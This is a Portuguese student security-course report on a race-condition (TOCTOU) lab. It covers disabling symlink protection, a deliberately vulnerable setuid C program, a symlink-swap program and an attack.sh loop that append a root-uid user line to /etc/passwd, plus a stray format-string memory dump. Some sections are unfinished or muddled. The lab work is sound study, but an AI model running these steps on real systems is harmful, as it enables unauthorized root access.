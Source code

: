 
  

![](logoEST.png)


# Segurança Informática</span> <br>
##  Projeto </span> <br>

### nome aluno1 ; numero aluno1  <br>
### nome aluno2 ; numero aluno 2 <br>

<br>




## 1 Introdução


## 2 Vulnerabilidades Condiçoes de Corrida - Introdução
Uma condição de corrida surge quando um programa depende da sequência e(ou) momento de execução de processos ou threads. Condições de corrida critica
ocorrem quando processos ou threads dependem da mesma informação de estado. As operações efetuadas sobre informação de estado partilhada devem ser
realizadas em secções criticas que devem ser executadas de forma exclusiva. Falhas a esta regra (de execução mutuamente exclusiva) podem permitir a
corrupção do estado partilhado.
Condições de corrida podem ser de difícil reprodução uma vez que o resultado final é não-determinista e depende do momento de execução nos vários processos
ou threads. Problemas desta natureza podem não ser notados quando se executam os programas em modo de debug ou quando se adiciona logging.

Em outros palavras, é a situação onde o tempo que os eventos ocorrem podem influenciar sua execução.
Softwares básicos como o sistema operacional, servidores diversos como banco de dados e HTTP também encontram condições de corrida.

**Como occorrem**
Se for algo exclusivo em memória ou que é garantido que apenas uma aplicação pode acessar só pode ocorrer uma condição de corrida se existir mais de uma thread, caso contrário não há concorrência, então o tempo é regido de forma linear pela aplicação.

Já recursos compartilhados entre várias aplicações estão sempre suscetíveis à condição de corrida.

Algumas condições de corrida, ou tentativas de solucionar condições de corrida podem provocar um deadlock que é a interdependência entre duas operações que são paralelas. Uma impede a outra de ser executada que por sua vez impede a primeira de ser executada.

<div style="page-break-after: always"></div>

## 3 Vulnerabilidades Condições de Corrida - Setup
Para o setup inicial precisamos de desativar a proteção contra ataques deste género. Foi através do seguinte comando que foi possivel fazê-lo

```sh
   $  sudo sysctl -w fs.protected_symlinks=0
```
Em computação, um symlink é um tipo especial de arquivo que contém uma referência a outro arquivo ou diretório na forma de um caminho absoluto ou relativo e que afeta a resolução do nome de caminho (pathname). Os symlinks já estiveram presentes em 1978 em sistemas operacionais de mini-computadores da DEC e do RDOS da Data General.



<div style="page-break-after: always"></div>

## 4 Vulnerabilidades Condições de Corrida - Programa Vulnerável

```c
/* vulp.c */
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define DELAY 5000

int main(){
  char* fn = "./XYZ";
  char buffer[60];
  FILE *fp;
  long i;
  /* get user input */
  scanf("%50s", buffer);
  if(access(fn, W_OK) == 0){
    for(i=0;i<DELAY;i++){
      int a = i ^ 2;
    }
    fp = fopen(fn, "a+");
    fwrite(buffer,sizeof(char),strlen(buffer), fp);
    fwrite("\n",sizeof(char),1, fp);
    fclose(fp);
  }else printf("No permission \n");
}
```


SetUID Program

```sh
   $ ls
   $ gcc vulp.c -o vulp
   $ sudo chown root vulp
   $ sudo chmod 4755 vulp
   $ ls -l vulp.c
```

![Permissões do programa vulp](checkOwnership.png "Permissões do programa vulp")
*Permissões do programa vulp* 



<div style="page-break-after: always"></div>

## 5 Vulnerabilidades Condições de Corrida - Escolher o objetivo

Criar utilizador com permissões de root
```sh
   $ sudo adduser teste
   $ cut -d: -f1 /etc/passwd # List all users (teste appear)
   $ sudo chown teste vulp # SETUID to teste
   $ sudo chmod 4755 vulp
   $ ls -l vulp #OUTPUT: -rwsr-xr-x 1 teste seed 7628 Jan 8 07:36 vulp
```

**ID**
```sh
   $ id # uid=0(root) gid=0(root) groups=0(root)
```

Com isto demonstrámos como se adiciona um novo utilizador com os previlégios de root.
Após esta demonstração removemos a ultima linha, que adicionamos, no ficheiro "/etc/passwd".
<div style="page-break-after: always"></div>

## 6 Vulnerabilidades Condições de Corrida - Executar o atque
Tendo por objetivo, explorar a vulnerabilidade de condição de corrida e obter o acesso de um utilizador com provilégios root.

Para tal, tornámos o ficheiro /tmp/XYZ um link para o ficheiro /etc/passwd, e a vulnerabilidade ocorre no espeço-tempo entre a verificação e utilização.
```c
#include <unistd.h>
//substitute_file.c
int main(void) {
	unlink("./XYZ");
	symlink("/etc/passwd","./XYZ");
}
```
Uma vez que não se pode modificar o programa vulnerável, a única ação possível consiste na execução do ataque em paralelo, em
"corrida" contra o programa vulnerável, esperando que este vença a condição de corrido, ou seja: modificar o link durante a janela critica.

Infelizmente não é possível prever o timing perfeito, pelo que o sucesso do ataque é probabilístico, sendo que quanto menor a janela critica, menos provável é o
ataque ter sucesso. Uma hipótese para aumentar a probabilidade de sucesso consiste em executar o programa vulnerável muitas vezes, em simultâneo até obter sucesso no ataque.

Criamos um ficheiro de texto contendo a linha para adicionar o utilizador com privilégios.
"teste:U6aMy0wojraho:0:0:teste:/root:/bin/bash"

De seguida criámos o ficheiro attack.sh que em vai ser executado enquanto o ficheiro /etc/passwd não for modificado. 

```sh
#!/bin/bash
# attack.sh
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ] # Check if /etc/passwd is modified
  do
    rm ./XYZ
    true > ./XYZ
    vulp < passwd_input &
    ./substitute_file
    new=$($CHECK_FILE)
  done
echo "STOP... The passwd file has been changed"

```

Fizemos diverso testes, e o ataque foi executado com sucesso em menos de 5 segundos em todos os testes. 

## 6 String de formato 2.1

Hexadecimal
bfb9dfcf.b75392ef.b740be6e.b752ba88.b779fe60.b740bc45.bfb9d544.bfb9d0d4.0d696911.b740bc45.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.

Este valores representam os conteúdos de memória lidos pelo programa, que não deveriam ser acedidos fora do mesmo.


**2.2**


<div style="page-break-after: always"></div>


##  Referências
 
  1. [The Linux Command Line](https://linuxcommand.org/)
  2. [How to Write a Setuid Program](http://nob.cs.ucdavis.edu/~bishop/secprog/1987-sproglogin.pdf)
  3. [fork](https://www.csl.mtu.edu/cs4411.ck/www/NOTES/process/fork/create.html)
  1. [The Linux Command Line](https://linuxcommand.org/)
  2. [How to Write a Setuid Program](http://nob.cs.ucdavis.edu/~bishop/secprog/1987-sproglogin.pdf)
  3. [fork](https://www.csl.mtu.edu/cs4411.ck/www/NOTES/process/fork/create.html)

  <div style="page-break-after: always"></div>


   